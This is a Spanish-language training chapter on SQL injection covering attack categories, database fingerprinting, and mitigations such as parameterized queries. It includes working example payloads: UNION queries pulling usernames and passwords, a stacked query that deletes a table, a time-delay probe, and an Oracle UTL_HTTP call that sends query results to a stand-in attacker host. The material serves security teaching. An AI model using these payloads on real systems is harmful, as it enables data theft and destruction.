



# 6.4.2 - Vulnerabilidades de Inyección SQL
Las vulnerabilidades de _inyección SQL (SQLi)_ pueden ser catastróficas porque pueden permitir que un atacante vea, inserte, elimine o modifique registros en una base de datos. En el ataque de inyección, el atacante inserta, o _inyecta_, consultas SQL parciales o completas a través de la aplicación web. El atacante inyecta comandos SQL en los campos de entrada de una aplicación o una URL para ejecutar comandos SQL predefinidos.<br>

## Una Breve Introducción a SQL
Como sabrá, las siguientes son algunas de las declaraciones (comandos) de SQL más comúnes:<br>
- __SELECT__: Se utiliza para obtener datos de una base de datos.
- __UPDATE__: Se usa para actualizar los datos en una base de datos.
- __DELETE__: Se usa para eliminar datos de una base de datos.
- __INSERT INTO__: Se utiliza para insertar datos nuevos en una base de datos.
- __CREATE DATABASE__: Se usa para crear una base de datos nueva.
- __ALTER DATABASE__: Se usa para modificar una base de datos.
- __CREATE TABLE__: Se usa para crear una tabla nueva.
- __ALTER TABLE__: Se usa para modificar una tabla.
- __DROP TABLE__: Se usa para eliminar una tabla.
- __CREATE INDEX__: Se utiliza para crear un índice o un elemento de clave de búsqueda.
- __DROP INDEX__: Se usa para eliminar un índice.<br>

Por lo general, las declaraciones de SQL se dividen en las siguientes categorías:<br>
- Instrucciones del Lenguaje de Definición de Datos (DDL)
- Instrucciones del Lenguaje de Manipulación de Datos (DML)
- Instrucciones de control de transacciones
- Instrucciones de control de sesión
- Declaraciones de SQL integradas
<br>

__CONSEJO__: El sitio web de W3Schools tiene una herramienta llamada Try-SQL Editor que permite practicar el uso de declaraciones en una "base de datos en línea" (*[Try-SQL Editor](https://www.w3schools.com/sql/trysql.asp?filename=trysql_select_all)*). Puede utilizar esta herramienta para familiarizarse con las declaraciones SQL y cómo pueden pasarse a una aplicación. Otro buen recurso en línea que explica las consultas SQL en detalle es _https://www.geeksforgeeks.org/sql-ddl-dml-tcl-dcl_.<br>

### Ejemplo de una declaración SQL
```SQL
SELECT * FROM Customers WHERE ContactName LIKE "%Saavedra%";
```
La instrucción que se muestra es una instrucción __SELECT__ que consulta registros en una tabla de base de datos llamada **_Customers (Clientes)_** y que busca específicamente cualquier instancia que coincida con __%Saavedra%__ en la columna (campo) **_ContactName_**. Se muestra un único registro.<br>

__NOTA__: Puede utilizar diferentes instrucciones __SELECT__ en el editor Try-SQL para familiarizarse con los comandos SQL.<br>

### Explicación de la declaración SQL
```SQL
SELECT * FROM Customers WHERE ContactName LIKE '%Saavedra%';
```
Las aplicaciones web construyen declaraciones SQL que implican la sintaxis de SQL invocada por la aplicación combinada con datos proporcionados por el usuario. La primera parte de la declaración SQL (```SELECT * FROM Customers WHERE ContactName LIKE```) no se muestra al usuario; normalmente, la aplicación envía esta parte de la declaración a la base de datos en segundo plano. La segunda parte de la declaración (```'%Saavedra%'```) suele ser la entrada del usuario en un formulario web.<br>

Si una aplicación no sanitiza la entrada del usuario, un atacante puede proporcionar datos manipulados en un intento de hacer que la declaración SQL original ejecute acciones adicionales en la base de datos. Las inyecciones SQL se pueden lograr mediante cadenas de caracteres (strings) o entradas numéricas proporcionadas por el usuario.<br>

La imagen muestra un ejemplo del uso de WebGoat para llevar a cabo un ataque por inyección SQL básico. Cuando se ingresa la cadena __[Smith] [or] [1=1]__ en el formulario web, la aplicación muestra todos los registros de la base de datos al atacante. Este es un ejemplo de ataque por __Inyección SQL booleana__.<br>

_Ejemplo de un ataque por **Inyección SQL Básico con Entrada de Usuario Basada en Cadenas**_<br>

<br>

La siguiente imagen muestra otro ejemplo de ataque por inyección SQL. En este caso, el atacante está utilizando una entrada numérica para hacer que la aplicación vulnerable vuelque los registros de la tabla.<br>

<br>

Uno de los primeros pasos cuando encuentra vulnerabilidades de inyección SQL es comprender cuándo la aplicación interactúa con una base de datos. Esto generalmente se hace con formularios de autenticación web, motores de búsqueda y sitios interactivos, como sitios de comercio electrónico.<br>

Puede hacer una lista de todos los campos de entrada cuyos valores podrían usarse para elaborar una consulta SQL válida. Esto incluye intentar identificar y manipular campos ocultos de solicitudes __POST__ y luego probarlos por separado, intentar interferir con la consulta y generar un error. Como parte de las pruebas de penetración, debe prestar atención a los encabezados HTTP y las cookies.<br>

Como evaluador de penetración, puede comenzar agregando una comilla simple (') o un punto y coma (;) al campo o parámetro en un formulario web. Las comillas simples se utilizan en SQL como terminador de cadena. Si la aplicación no lo filtra correctamente, es posible que pueda recuperar registros o información adicional que pueda ayudar a mejorar su consulta o instrucción.<br>

También puede utilizar delimitadores de comentarios (como __-__ o __/* */__), así como otras palabras clave SQL, incluidos los operandos __AND__ y __OR__. Ota prueba simple es insertar una cadena de caracteres donde se espera un número.<br>

__NOTA__: Debe monitorear todas las respuestas de una aplicación. Esto incluye la inspección del código fuente HTML o JavaScript. En algunos casos, los errores que provienen de la aplicación están dentro del código fuente y se muestran al usuario.<br>

## Categorías de Inyección SQL
Los ataques de inyección SQL se pueden dividir en las siguientes categorías:<br>
- __Inyección SQL en banda__: Con este tipo de inyección, el atacante obtiene los datos utilizando el mismo canal que se utiliza para inyectar el código SQL. Esta es la forma más básica de un ataque de inyección SQL, donde los datos se vuelcan directamente en una aplicación web (o página web).
- __Inyección SQL fuera de banda__: Con este tipo de inyección, el atacante recupera datos mediante un canal diferente. Por ejemplo, se podría enviar al atacante un correo electrónico, un texto o un mensaje instantáneo con los resultados de la consulta; o el atacante podría enviar los datos comprometidos a otro sistema.
- __Inyección SQL ciega (o inferencial)__: Con este tipo de inyección, el atacante no hace que la aplicación muestre ni transfiera ningún dato; más bien, el atacante puede reconstruir la información enviando declaraciones específicas y discerniendo el comportamiento de la aplicación y la base de datos.<br>

__CONSEJO__: Para realizar un ataque por inyección SQL, un atacante debe crear una declaración SQL sintácticamente correcta (consulta). El atacante también puede aprovechar los mensajes de error que provienen de la aplicación y podría reconstruir la lógica de la consulta original para comprender como ejecutar el ataque correctamente. Si la aplicación oculta los detalles del error, el atacante podría necesitar hacer ingenería inversa de la lógica de la consulta original.<br>

Básicamente, hay cinco técnicas que pueden utilizarse para explotar las vulnerabilidades de inyección SQL:<br>
- __Operador UNION__: Esto se usa generalmente cuando una vulnerabilidad de inyección SQL permite que una instrucción __SELECT__ combine dos consultas en un solo resultado o un conjunto de resultados.
- __Booleana__: Se usa para verificar si ciertas condiciones son verdaderas o falsas.
- __Basada en errores__: Se utiliza para forzar a la base de datos a generar un error con el fin de mejorar y refinar un ataque (inyección).
- __Fuera de banda__: Se utiliza normalmente para obtener registros de la base de datos mediante un canal diferente. Por ejemplo, es posible realizar una conexión HTTP para enviar los resultados a un servidor web diferente o una máquina local que ejecuta un servicio web.
- __Retraso de tiempo__: Es posible utilizar comandos de la base de datos para retrasar las respuestas. Un atacante puede usar esta técnica cuando no obtiene resultados o mensajes de error de la aplicación.<br>

__NOTA__: Es posible combinar cualquiera de las técnicas mencionadas anteriormente para explotar una vulnerabilidad de inyección SQL. Por ejemplo, un atacante puede utilizar el operador UNION y técnicas fuera de banda.<br>

La inyección SQL también se puede explotar manipulando una cadena de consulta de URL, como se demuestra aquí:
```
https://store.h4cker.org/buystuff.php?id=99 AND 1=2
```
Esta aplicación vulnerable realiza la siguiente consulta SQL: 
```SQL
SELECT * FROM products WHERE product_id=99 AND 1=2
```
El atacante puede ver un mensaje que especifica que no hay contenido disponible o una página en blanco. El atacante puede enviar una consulta válida para ver si hay resultados provenientes de la aplicación, como se muestra aquí:
```
https://store.h4cker.org/buystuff.php?id=99 AND 1=1
```
Algunos marcos de aplicaciones web permiten varias consultas a la vez. Un atacante puede aprovechar esa capacidad para realizar exploits adicionales, como agregar registros. La siguiente instrucción, por ejemplo, agrega un nuevo usuario llamado __omar__ a la tabla de usuarios de la base de datos:
```
https://store.h4cker.org/buystuff.php?id=99; INSERT INTO users(username) VALUES ('omar')
```

## Huella Digital de la Base de Datos
Para ejecutar correctamente consultas complejas y explotar diferentes combinaciones de inyecciones SQL, primero debe realizar una huella digital en la base de datos. El lenguaje SQL está definido en el estándar ISO/IEC 9075. Sin embargo, las bases de datos difieren entre sí en términos de su capacidad para ejecutar comandos adicionales, el uso de funciones para recuperar datos y otras características. Al realizar ataques de inyección SQL más avanzados, un atacante necesita saber qué base de datos de back-end utiliza la aplicación (por ejemplo, __Oracle__, __MariaDB__, __MySQL__, __PostgreSQL__).<br>

Una de las formas más fáciles de realizar huellas digitales en una base de datos es prestar mucha atención a los errores devueltos por la aplicación, como se demuestra en el siguiente mensaje de error de sintaxis de una base de datos __MySQL__:
```
    MySQL Error 1064: You have an error in your SQL syntax
```
<br>El siguiente es un error de una base de datos de Microsoft SQL:
```
    Microsoft SQL Native Client error %u201880040e14%u2019
    Unclosed quotation mark after the character string
```
<br>El siguiente es un mensaje de error de una base de datos de Microsoft SQL Server con Active Server Page (ASP):
```
    Server Error in '/' Application
```
<br>El siguiente es un mensaje de error de una base de datos de Oracle:
```
    ORA-00933: SQL command not properly ended
```
<br>El siguiente es un mensaje de error de una base de datos de PostgreSQL:
```
    PSQLException: ERROR: unterminated quoted string at or near " ' " Position: 1
    or
    Query failed: ERROR: syntax error at or near " ' " at character 52 in /www/html/buyme.php on line 69.
```
<br>Si está intentando realizar una huella digital en una base de datos y no hay ningún mensaje de error de la base de datos, puede intentar usar la concatenación, como se muestra aquí:
```
    MySQL: 'finger' + 'printing'
    SQL Server: 'finger' 'printing'
    Oracle: 'finger' || 'printing'
    PostgreSQL: 'finger' || 'printing'
```

### La Técnica de Explotación de UNION
El operador SQL __UNION__ se usa para combinar los conjuntos de resultados de dos o más instrucciones __SELECT__, como se muestra aquí:
```SQL
    SELECT zipcode FROM h4cker_customers UNION SELECT zipcode FROM h4cker_suppliers;
```
De manera predeterminada, el operador __UNION__ selecciona solo valores distintos. Puede utilizar el operador __UNION ALL__ si desea permitir valores duplicados.<br>

Los atacantes pueden usar el operador __UNION__ en ataques de inyección SQL para unir consultas. El objetivo principal de esta estrategia es obtener los valores de columnas de otras tablas. El siguiente es un ejemplo de un ataque de inyección SQL basado en __UNION__:
```SQL
    SELECT zipcode FROM h4cker_customers WHERE zip=1 UNION ALL
    SELECT creditcard FROM payments
```
En este ejemplo, el atacante une el resultado de la consulta original con todos los números de tarjetas de crédito en la tabla de pagos.<br>

La siguiente imagen muestra un ejemplo del uso de un operador __UNION__ en la aplicación de vulnerabilidades de WebGoat para simular un ataque por inyección SQL. El ejemplo muestra la siguiente cadena ingresada en el formulario web:
```SQL
    omar' UNION SELECT 1,user_name,password,'1','1','1',1 FROM user_system_data --
```

<br>

El siguiente es un ejemplo de un ataque de inyección SQL basado en __UNION__ mediante una URL:
```
    https://store.h4cker.org/buyme.php?id=1234' UNION SELECT 1,user_name,password,'1','1','1',1 FROM user_system_data --
```

### Valores Booleanos en Ataques de Inyección SQL
La técnica booleana se usa generalmente en ataques de inyección SQL ciegos. En las vulnerabilidades de inyección ciega de SQL, la aplicación vulnerable generalmente no devuelve un error de SQL, pero podría devolver un mensaje HTTP 500, un mensaje 404 o una redirección. Es posible utilizar consultas booleanas en una aplicación para intentar comprender el motivo de dichos códigos de error.<br>

_Ejemplo de un Ataque de Inyección SQL ciego_<br>

<br>

### Explotación fuera de banda
La técnica de explotación fuera de banda es muy útil cuando se aprovecha una vulnerabilidad de inyección SQL ciega. Puede utilizar las funciones del sistema de administración de bases de datos (DBMS) para ejecutar una conexión fuera de banda para obtener los resultados del ataque de inyección SQL ciega. La imagen muestra cómo un atacante podría explotar una vulnerabilidad de inyección SQL ciega en store.h4cker.org y luego obligar al servidor de la víctima a enviar los resultados de la consulta (datos comprometidos) a otro servidor (malicious.h4cker.org).<br>

_Ejemplo de un ataque fuera de banda_<br>

<br>

Supongamos que la cadena SQL maliciosa es la siguiente:
```
    https://store.h4cker.org/buyme.php?id=8||UTL_HTTP.request('malicious.h4cker.org')||(SELECT user FROM DUAL)--
```
En este ejemplo, el atacante está usando el valor 8 combinado con el resultado de la función de Oracle **UTL_HTTP.request**.<br>

### Consultas Apiladas
En una consulta SQL normal, puede usar un punto y coma para especificar que se ha llegado al final de una instrucción y que lo que sigue es una nueva. Esta técnica le permite ejecutar varias declaraciones en la misma llamada a la base de datos. Las consultas __UNION__ utilizadas en los ataques de inyección SQL se limitan a instrucciones __SELECT__. Sin embargo, las **_consultas apiladas_** se pueden utilizar para ejecutar cualquier procedimiento o declaración SQL. Un ataque típico con esta técnica podría especificar una instrucción de entrada maliciosa como la siguiente:
```SQL
    1; DELETE FROM customers
```
La aplicación y la base de datos vulnerables procesan esta instrucción como la siguiente consulta SQL:
```SQL
    SELECT * FROM customers WHERE customer_id=1; DELETE FROM customers
```

### Técnica de Inyección SQL de Retraso de Tiempo
Al intentar explotar una inyección SQL ciega, la técnica booleana es muy útil. Otro truco es inducir también un retraso en la respuesta, lo que indica que el resultado de la consulta condicional es verdadero.<br>
__NOTA__: La técnica de retraso de tiempo varía de un tipo/proveedor de base de datos a otro.<br>


El siguiente es un ejemplo del uso de la técnica de retraso de tiempo en un servidor MySQL:
```
    https://store.h4cker.org/buyme.php?id=8 AND IF(version() like '8%', sleep(10),'false'))--
```
En este ejemplo, la consulta verifica si la versión de MySQL es 8.x y luego fuerza al servidor a demorar la respuesta 10 segundos. El atacante puede aumentar el tiempo de demora y monitorear las respuestas. El atacante podría incluso establecer el parámetro de suspensión en un valor alto, ya que no es necesario esperar tanto tiempo y cancelar la solicitud después de unos segundos.<br>

### Evaluación de una Inyección SQL de Procedimiento Almacenado
Un _procedimiento almacenado_ es una o más declaraciones SQL o una referencia a un servidor SQL. Los procedimientos almacenados pueden aceptar parámetros de entrada y devolver varios valores en forma de parámetros de salida al programa que realiza la llamada. También puede contener instrucciones de programación que ejecuten operaciones en la base de datos (incluida la llamada a otros procedimientos).<br>
Si un servidor SQL no sanitiza la entrada del usuario, es posible ingresar declaraciones SQL maliciosas que se ejecutarán dentro del procedimiento almacenado. El siguiente ejemplo ilustra el concepto de procedimiento almacenado:
```
    Create procedure user_login @username varchar(20), @passwd varchar(20) As Declare @sqlstring varchar(250)
    Set @sqlstring = ' Select 1 from users where username = ' + @username + ' and passwd = ' + @passwd exec(@sqlstring) Go
```
Al ingresar __omar or 1=1' somepassword__ en una aplicación vulnerable donde la entrada no se sanitiza, un atacante podría obtener la contraseña y otra información confidencial de la base de datos.<br>
Puede utilizar herramientas como **_SQLMap_** para automatizar un ataque de inyección SQL. SQLMap viene instalado por defecto en Kali Linux y Parrot OS. Además, puede descargarlo de _https://sqlmap.org_ e instalarlo en cualquier sistema Linux compatible.<br>

### Mitigaciones para la Inyección SQL
La validación de entrada es una parte importante para mitigar los ataques de inyección SQL. La mejor mitigación para las vulnerabilidades de inyección SQL es utilizar consultas inmutables, como las siguientes:<br>
- Consultas estáticas
- Consultas parametrizadas
- Procedimientos almacenados (si no generan SQL dinámico)

Las consultas inmutables no contienen datos que puedan interpretarse. En algunos casos, procesan los datos como una entidad única vinculada a una columna sin interpretación.<br>
Los siguientes son ejemplos de consultas estáticas:
```SQL
    select * from contacts;
    select * from users where user = "omar";
```
Los siguientes son ejemplos de consultas parametrizadas:
```SQL
    String query = "SELECT * FROM users WHERE name = ?";
    PreparedStatement statement = 
    connection.prepareStatement(query);
    statement.setString(1, username);
    ResultSet results = statement.executeQuery();